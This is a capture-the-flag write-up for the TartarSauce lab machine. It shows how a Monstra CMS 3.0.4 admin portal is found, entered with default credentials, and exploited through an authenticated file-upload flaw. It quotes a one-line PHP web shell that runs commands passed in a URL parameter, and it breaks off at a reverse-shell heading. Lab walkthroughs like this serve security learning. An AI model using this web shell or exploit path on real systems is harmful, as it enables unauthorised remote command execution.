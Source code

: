 ## **Rabit Hole**
### monstra-3.0.4 admin portal

After feroxbuster we find admin page for monstra-3.0.4, and it was a login page.
```
http://10.10.10.88/webservices/monstra-3.0.4/admin/
```

![[TartarSauce-03.png]]

and we try use `admin:admin` to login this portal.

Excellent! we are in this portal.

![[TartarSauce-04.png]]

we know `/webservices/monstra-3.0.4/` told us it use monstra 3.0.4 , let's searchsploit for that:

```
searchsploit monstra 3.0.4
```

![[TartarSauce-02.png]]

#### 43348 (Authenticated) Arbitrary File Upload / Remote Code Execution 

```bash
searchsploit -x 43348
searchsploit -m 43348
```

MonstraCMS 3.0.4 allows users to upload arbitrary files which leads to a
remote command execution on the remote server.

```txt
Proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>
```

### php-reverse-shell.php
